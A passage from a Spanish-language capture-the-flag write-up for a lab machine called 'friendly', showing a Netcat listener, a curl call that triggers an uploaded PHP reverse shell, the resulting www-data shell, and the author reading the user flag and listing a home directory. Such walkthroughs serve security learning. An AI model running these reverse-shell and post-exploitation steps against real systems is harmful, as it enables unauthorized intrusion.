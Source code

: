 Ahora simplemente nos ponemos en escucha con Netcat y ejecutamos la reverse shell. Para ello, en un panel introducimos `nc -nlvp 1234` y en otro curl `http://$ip/rev.php` (o directamente cargamos la URL desde el navegador):

~~~
❯ nc -nlvp 1234
listening on [any] 1234 ...
connect to [192.168.1.150] from (UNKNOWN) [192.168.1.16] 36254
Linux friendly 5.10.0-21-amd64 #1 SMP Debian 5.10.162-1 (2023-01-21) x86_64 GNU/Linux
 13:29:12 up  3:02,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ pwd
/
~~~

Ahora vamos a realizar el [tratamiento de la TTY](https://kaianperez.github.io/tty/) y tras ello tratar de obtener la flag de user a ver si nos lo permite:

~~~bash
www-data@friendly:/$ cd /home
www-data@friendly:/home$ ls
RiJaba1
www-data@friendly:/home$ cd RiJaba1/
www-data@friendly:/home/RiJaba1$ ls -l
total 16
drwxr-xr-x 2 RiJaba1 RiJaba1 4096 Mar 11 04:18 CTF
drwxr-xr-x 2 RiJaba1 RiJaba1 4096 Mar 11 03:59 Private
drwxr-xr-x 2 RiJaba1 RiJaba1 4096 Feb 21 07:54 YouTube
-r--r--r-- 1 RiJaba1 RiJaba1   33 Mar 11 04:13 user.txt
www-data@friendly:/home/RiJaba1$ cat user.txt
~~~

Como se puede observar, la flag tiene permisos de lectura como *otros*, así que podemos leerla sin problemas.

De forma adicional, como vemos varios directorios, vamos a revisarlos:

~~~bash
www-data@friendly:/home/RiJaba1$ ls -lRa            
.:
total 24
drwxr-xr-x 5 RiJaba1 RiJaba1 4096 Mar 11 04:13 .
drwxr-xr-x 3 root    root    4096 Feb 21 07:50 ..
lrwxrwxrwx 1 RiJaba1 RiJaba1    9 Feb 23 10:18 .bash_history -> /dev/null
drwxr-xr-x 2 RiJaba1 RiJaba1 4096 Mar 11 04:18 CTF
drwxr-xr-x 2 RiJaba1 RiJaba1 4096 Mar 11 03:59 Private
drwxr-xr-x 2 RiJaba1 RiJaba1 4096 Feb 21 07:54 YouTube
-r--r--r-- 1 RiJaba1 RiJaba1   33 Mar 11 04:13 user.txt

./CTF:
total 12
drwxr-xr-x 2 RiJaba1 RiJaba1 4096 Mar 11 04:18 .
drwxr-xr-x 5 RiJaba1 RiJaba1 4096 Mar 11 04:13 ..
-r--r--r-- 1 RiJaba1 RiJaba1   21 Mar 11 04:18 ...

./Private:
total 12
drwxr-xr-x 2 RiJaba1 RiJaba1 4096 Mar 11 03:59 .
drwxr-xr-x 5 RiJaba1 RiJaba1 4096 Mar 11 04:13 ..
-r--r--r-- 1 RiJaba1 RiJaba1   45 Mar 11 03:59 targets.txt

./YouTube:
total 12
drwxr-xr-x 2 RiJaba1 RiJaba1 4096 Feb 21 07:54 .
drwxr-xr-x 5 RiJaba1 RiJaba1 4096 Mar 11 04:13 ..
~~~